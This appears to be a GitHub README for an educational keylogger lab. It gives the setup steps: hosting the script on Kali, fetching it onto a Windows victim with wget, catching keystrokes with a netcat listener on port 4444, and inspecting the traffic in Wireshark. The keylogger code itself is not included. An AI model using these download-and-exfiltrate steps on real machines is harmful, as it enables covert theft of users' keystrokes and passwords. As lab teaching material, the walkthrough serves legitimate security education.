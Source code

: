 # 🛡️ Keylogger Lab Project (Controlled Ethical Simulation)

This project demonstrates how a simple keylogger can be used to capture keyboard inputs from a **victim machine (Windows 11 Pro)** and exfiltrate the data to an **attacker's machine (Kali Linux)** using **Python sockets and Netcat**, while also capturing and analyzing the traffic with **Wireshark**.

> 🚨 This project is for **educational** and **ethical hacking research** purposes **only**. Do **NOT** use this code outside of a controlled lab environment. See the disclaimer at the bottom.

---

## 📚 Overview

The objective of this project is to **simulate a keylogging attack** in a controlled lab setting and study how data exfiltration can occur in real-world scenarios. This simulation includes:

* A **Python-based keylogger** using the `pynput` library
* **Netcat** on Kali Linux acting as the attacker’s listener
* **Wireshark** for monitoring captured keystrokes over the network
* Transfer of the malicious script using `wget`

---

## 🧪 Lab Setup

| **Component**      | **Configuration**                     |
| ------------------ | ------------------------------------- |
| 🧑‍💻 **Attacker** | Kali Linux                            |
| 🧑‍💻 **Victim**   | Windows 11 Pro (VM or Physical)       |
| 🌐 **Network**     | Host-only Adapter or Internal Network |

---

## 🔗 Attack Flow

1. **Attacker** hosts the keylogger script on a web server.
2. **Victim** downloads the script using `wget` in PowerShell or CMD.
3. **Victim** runs the script, which sends keystrokes to the **attacker's IP and port** via TCP.
4. **Attacker** listens on a specified port using **Netcat**.
5. **Wireshark** captures and inspects the network traffic.

---

## 🧰 Tools Used

* `Python 3` — Programming language used to write the keylogger
* `pynput` — Python library to capture keyboard events
* `socket` — Built-in Python module for TCP communication
* `Netcat` — Lightweight TCP/UDP listener
* `Wireshark` — Packet analyzer used for forensic inspection
* `wget` — Utility for script transfer via HTTP

---

## 💻 Simulation Steps (Controlled Lab Environment)

### ✅ Step 1: **Host the Keylogger on the Attacker Machine (Kali)**

On your **Kali Linux**, run a Python HTTP server to host the keylogger:

```bash
cd /path/to/keylogger_script/
python3 -m http.server 8000
```

---

### ✅ Step 2: **Download the Script on the Victim Machine (Windows 11 Pro)**

On the **Windows** machine, open **PowerShell or Command Prompt as Administrator** and run:

```powershell
wget http://<KALI_IP>:8000/keylogger.py -OutFile keylogger.py
```

> 📝 Replace `<KALI_IP>` with your actual Kali Linux IP address.

---

### ✅ Step 3: **Start the Listener on the Attacker Machine (Kali)**

On **Kali**, open another terminal and run:

```bash
nc -lvnp 4444
```

> 🎯 **Keep this terminal open.** Incoming keystrokes from the victim will appear here.

---

### ✅ Step 4: **Run the Keylogger on the Victim Machine (Windows 11 Pro)**

Make sure your script contains the following call in the `__main__` section:

```python
Keylogger("YOUR_KALI_IP", 4444).start()
```

> 📝 Replace `"YOUR_KALI_IP"` with your actual IP address.

Then, in the same terminal where you downloaded the script, run:

```powershell
python keylogger.py
```

> As the user types on the **Windows** machine, their keystrokes will be displayed in real time in the Netcat terminal on **Kali**.

---

### 🧪 Optional: **Capture Network Traffic with Wireshark**

On your **Kali Linux** machine:

1. Open **Wireshark**
2. Start capturing on the interface used (e.g., `eth0`, `enp0s3`, or similar)
3. Use this **display filter** to isolate the traffic:

```text
tcp.port == 4444
```

> 🔍 Observe how **raw keystrokes** are transmitted over the network.

---

## ⚠️ Disclaimer

This project is provided for educational and ethical research purposes only. The author does not condone or encourage the use of these techniques outside a legal and controlled environment. Misuse of this information may violate local or international laws.

